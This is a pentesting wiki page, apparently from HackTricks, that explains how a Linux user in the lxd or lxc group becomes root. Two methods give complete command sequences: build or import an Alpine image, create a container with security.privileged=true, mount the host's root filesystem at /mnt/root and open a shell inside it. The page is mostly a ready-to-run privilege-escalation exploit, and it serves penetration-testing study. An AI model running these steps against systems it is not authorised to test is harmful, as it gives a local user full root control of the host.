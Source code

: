 # lxd/lxc Group - Privilege escalation

{#include ../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

If you belong to _**lxd**_ **or** _**lxc**_ **group**, you can become root

## Exploiting without internet

### Method 1

You can download an alpine image to use with lxd from a trusted repository.
Canonical publishes daily builds in their site: [https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/](https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/)
Just grab both **lxd.tar.xz** and **rootfs.squashfs** from the newest build. (Directory name is the date).

Alternativelly you can install in your machine this distro builder: [https://github.com/lxc/distrobuilder](https://github.com/lxc/distrobuilder) (follow the instructions of the github):

```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go gcc debootstrap rsync gpg squashfs-tools git make build-essential libwin-hivex-perl wimtools genisoimage    

# Clone repo
mkdir -p $HOME/go/src/github.com/lxc/
cd $HOME/go/src/github.com/lxc/
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd ./distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container - Beware of architecture while compiling locally.
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18 -o image.architecture=x86_64
```

Upload the files **incus.tar.xz** (**lxd.tar.xz** if you downloaded from Canonical repository) and **rootfs.squashfs**, add the image to the repo and create a container:

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

> [!CAUTION]
> If you find this error _**Error: No storage pool found. Please create a new storage pool**_\
> Run **`lxd init`** and set-up all options on default. Then **repeat** the previous chunk of commands

Finally you can execute the container and get root:

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

### Method 2

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

{#include ../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


